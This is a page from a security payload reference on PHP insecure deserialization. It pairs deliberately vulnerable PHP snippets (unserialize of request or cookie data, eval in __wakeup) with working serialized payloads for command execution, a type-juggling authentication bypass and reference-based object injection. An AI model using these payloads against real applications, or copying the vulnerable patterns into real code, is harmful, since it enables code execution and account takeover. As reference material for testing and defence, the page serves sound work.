

repository: swisskyrepo/PayloadsAllTheThings · page: Insecure Deserialization/PHP/index.html · generator: mkdocs

# PHP Deserialization

> PHP Object Injection is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

## Summary

* [General Concept](#general-concept)
* [Authentication Bypass](#authentication-bypass)
* [Object Injection](#object-injection)
* [Finding and Using Gadgets](#finding-and-using-gadgets)
* [Phar Deserialization](#phar-deserialization)
* [Real World Examples](#real-world-examples)
* [References](#references)

## General Concept

The following magic methods will help you for a PHP Object injection

* `__wakeup()` when an object is unserialized.
* `__destruct()` when an object is deleted.
* `__toString()` when an object is converted to a string.

Also you should check the `Wrapper Phar://` in [File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phar) which use a PHP object injection.

Vulnerable code:

```php
<?php 
    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
    if(isset($_REQUEST['r'])){  
        $var1=unserialize($_REQUEST['r']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo ""; # nothing happens here
    }
?>
```

Craft a payload using existing code inside the application.

* Basic serialized data

    ```php
    a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}
    ```

* Command execution

    ```php
    string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"
    ```

## Authentication Bypass

### Type Juggling

Vulnerable code:

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

Payload:

```php
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

Because `true == "str"` is true.

## Object Injection

Vulnerable code:

```php
<?php
class ObjectExample
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```

Payload:

```php
O:13:"ObjectExample":2:{s:10:"secretCode";N;s:5:"guess";R:2;}
```

We can do an array like this:

```php
a:2:{s:10:"admin_hash";N;s:4:"hmac";R:2;}
```
